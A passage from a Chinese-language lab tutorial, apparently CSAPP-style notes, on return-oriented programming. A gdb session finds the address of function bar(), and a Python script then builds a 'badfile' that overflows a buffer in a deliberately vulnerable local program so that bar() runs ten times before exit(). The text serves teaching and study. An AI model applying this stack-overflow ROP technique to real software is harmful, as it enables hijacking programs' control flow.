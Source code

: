 接下来，我们使用 gdb 调试 stack_rop_dbg 程序，获取函数 bar 的基地址为 0x5655624c。

```c{.line-numbers}
monica@xvm:~/csapp/chapter3$ gdb ./stack_rop_dbg -q
Reading symbols from ./stack_rop_dbg...
(gdb) b 32
Breakpoint 1 at 0x12b9: file stack_rop.c, line 32.
(gdb) r
Starting program: /home/monica/csapp/chapter3/stack_rop_dbg 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, main (argc=1, argv=0xffffd154) at stack_rop.c:32
32      char *shell = (char*) getenv("MYSHELL");
(gdb) p bar
$1 = {void ()} 0x5655624c <bar>
(gdb) 
```

接下来我们使用 chain_noarg.py 来构建上图的 badfile，

```python{.line-numbers}
import sys

def tobytes(value):
    return (value).to_bytes(4, byteorder='little')

# address of bar()
bar_addr = 0x5655624c
# address of exit()
exit_addr = 0xf7db71f0

content = bytearray(0xaa for i in range(112))
content += tobytes(0xFFFFFFFF)
for i in range(10):
    content += tobytes(bar_addr)

content += tobytes(exit_addr)

with open("badfile", "wb") as f:
    f.write(content)
```

然后运行 stack_rop 的结果如下所示，我们可以看到 bar 函数被调用了 10 次。

```c{.line-numbers}
monica@xvm:~/csapp/chapter3$ ./stack_rop
0x5655624c, 0xf7db71f0
the '/bin/sh' string's address: 0xffffd383
address of buffer[]: 0xffffc868
frame pointer value: 0xffffc8d8
the function bar() is invoked 1 times!
the function bar() is invoked 2 times!
the function bar() is invoked 3 times!
the function bar() is invoked 4 times!
the function bar() is invoked 5 times!
the function bar() is invoked 6 times!
the function bar() is invoked 7 times!
the function bar() is invoked 8 times!
the function bar() is invoked 9 times!
the function bar() is invoked 10 times!
```
